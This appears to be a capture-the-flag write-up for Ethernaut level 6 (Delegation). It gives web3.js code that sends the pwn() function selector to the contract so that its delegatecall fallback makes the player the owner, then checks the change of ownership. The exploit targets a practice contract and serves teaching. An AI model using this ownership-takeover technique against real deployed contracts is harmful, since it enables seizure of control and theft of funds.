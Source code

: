 ## Ethernaut-6 solution:

1. Get the method ID of the `pwn()` function:

```
const methodId = web3.eth.abi.encodeFunctionSignature('pwn()');
```
2. Send a transaction to the Delegation contract with this method ID as data:

```
await web3.eth.sendTransaction({
    to: contract.address,
    data: methodId,
    from: player,
    gas: 100000
});

```

3. Check if you're now the owner:

```
const newOwner = await contract.owner();
console.log('New owner:', newOwner);
console.log('Player address:', player);

```